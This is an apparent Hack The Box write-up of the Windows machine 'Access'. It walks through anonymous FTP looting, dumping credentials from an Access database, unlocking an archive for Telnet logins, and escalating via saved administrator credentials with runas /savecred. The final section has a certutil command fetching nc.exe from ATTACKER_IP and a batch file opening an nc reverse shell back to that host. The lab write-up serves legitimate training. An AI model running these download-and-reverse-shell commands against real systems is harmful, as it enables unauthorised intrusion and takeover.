









This box is rated easy difficulty on HTB. It involves us pillaging an FTP server to grab a Microsoft Access Database file and an encrypted Zip archive. After dumping credentials from the DB we can unzip the file to gather credentials, allowing us to logon over Telnet and grab a shell on the system. Once on the machine, we discover a .lnk file that executes the runas.exe binary using saved administrator credentials. We can then upload Netcat to the machine and have runas.exe execute a malicious script as Administrator in order to escalate our privileges.

## Host Scanning
I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP yields no results.

```
$ sudo nmap -p21,23,80 -sCV 10.129.20.234 -oN fullscan-tcp

Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-18 00:15 -0400
Nmap scan report for 10.129.20.234
Host is up (0.055s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet  Microsoft Windows XP telnetd
| telnet-ntlm-info: 
|   Target_Name: ACCESS
|   NetBIOS_Domain_Name: ACCESS
|   NetBIOS_Computer_Name: ACCESS
|   DNS_Domain_Name: ACCESS
|   DNS_Computer_Name: ACCESS
|_  Product_Version: 6.1.7600
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.34 seconds
```

Looks like a Windows machine with three ports open: 
- FTP on port 21
- Telnet on port 23
- A Microsoft IIS web server on port 80

Since there is a web server I fire up Ffuf to search for subdirectories and Vhosts in the background before starting enumeration on FTP and Telnet.

## FTP Enumeration
Default scripts show that the FTP server allows for anonymous login, inside are two files split between the Backups and Engineer directories. The first being an .mdb (Microsoft Access Database) file and the other, a Zip archive for Access Control information. We are also not allowed to put files onto the server, voiding any possibility of grabbing a reverse shell through the website.



### Dumping Backup DB
Attempting to unzip the _Access_Control.zip_ file fails due to some type of encryption. I give a go at cracking it with zip2john, however it times out leaving me with no results. On the other hand, we're able to dump the contents of the backup database by opening Microsoft Access on Windows or using mdbtools on linux.

```
$ sudo apt install mdbtools

$ mdb-tables -1 backup.mdb
```

Apart of the mdbtools package is mdb-tables, which allows us to list all tables within a database directly from the command line. One that stands out to me is the _auth_user_ table, and upon exporting it to a CSV file, we discover three pairs of credentials.

```
$ mdb-export backup.mdb auth_user > out.csv

$ xdg-open out.csv
```



### Microsoft Vulnerabilities
My directory scans found absolutely nothing on the web server apart from the index page. Checking out the website just shows a picture of some sort of server along with the title of LON-MC6.



When Googling about this, I come across this [TrendMicro article](https://www.trendmicro.com/vinfo/us/security/news/vulnerabilities-and-exploits/patched-microsoft-access-mdb-leaker-cve-2019-1463-exposes-sensitive-data-in-database-files) which covers [CVE-2019–1463](https://nvd.nist.gov/vuln/detail/cve-2019-1463), an information disclosure vulnerability within Microsoft Access' software due to improper handling of objects in memory. 

This vulnerability could explain all the extra information within the MDB backup files but doesn't really help us out here.

Another suggestion that popped up during research was this [Microsoft security disclosure](https://support.microsoft.com/en-us/topic/ms09-042-vulnerability-in-telnet-could-allow-remote-code-execution-7d71e702-0539-73ab-dbbe-2ac5502c8420) that reveals a vulnerability in Telnet clients, potentially allowing attackers to gain RCE from it. Further research shows that this is regarding [CVE-2009–1930](https://nvd.nist.gov/vuln/detail/CVE-2009-1930).

## Initial Foothold
Now that we have credentials, I connect over Telnet which prompts a login. Unfortunately, Using any of the three pairs found in the MDB file do not work here.



### Decrypting ZIP Archive
Remembering that the Zip archive failed to unzip due to unsupported compression method, I found out that this was because it was password protected. Unzipping this archive with the Engineer user's password works and we're granted a .pst (Outlook Personal Storage) file. 

We can open this file using readpst from the pst-tools package. 

```
$ sudo apt install pst-utils

$ readpst Access\ Control.pst

$ xdg-open Access\ Control.mbox 
```

### Telnet Creds
Upon using this tool on a .pst file, it will create a copy and convert it to .mbox format which can be opened with the `xdg-open` command. Inside contains an email memo from John, regarding a password change for the 'Security' account.



Attempting to use these newfound credentials over Telnet succeeds and we're granted a shell on the box as the security user.



At this point we can grab the user flag under their Desktop folder and begin looking at ways to escalate privileges towards administrator. 

## Privilege Escalation
I tried to upload a reverse shell made with Msfvenom in order to upgrade from this crappy terminal, however group policies blocked me from executing it and swapping to PowerShell just hangs. 

### Runas.exe LNK File
Some light enumeration on the filesystem shows a .lnk file on the Public user's Desktop folder that executes the _runas.exe_ binary. We can also see that it's saving the administrator's credential for us with the access.exe binary later on.



We can confirm this by listing stored credentials with `cmdkey /list`.



### Saved Creds Exploitation
Fortunately for us, since the administrator's credentials are already saved, we can utilize the `/savecred` argument with _runas.exe_ in order to execute commands as them. Due to our pseudo-terminal, we won't be able to spawn a new cmd process within it, so I opt to upload _nc.exe_ to the box and have it execute malicious script to connect back to me.

```
$ cd C:\temp

$ certutil -urlcache -f http://ATTACKER_IP/nc.exe nc.exe

$ echo C:\temp\nc.exe [ATTACKER_IP] 9001 -e cmd.exe > shell.bat

$ runas.exe /user:administrator /savecred "C:\temp\shell.bat
```

After standing up a Netcat listener and having runas execute the reverse shell script, I grab a session as administrator on the system at last.



Grabbing the root flag under their Desktop folder completes this challenge. Overall, this box was very unique in the fact that it utilized several older Windows tactics to compromise the machine. I hope this was helpful to anyone following along or stuck and happy hacking!
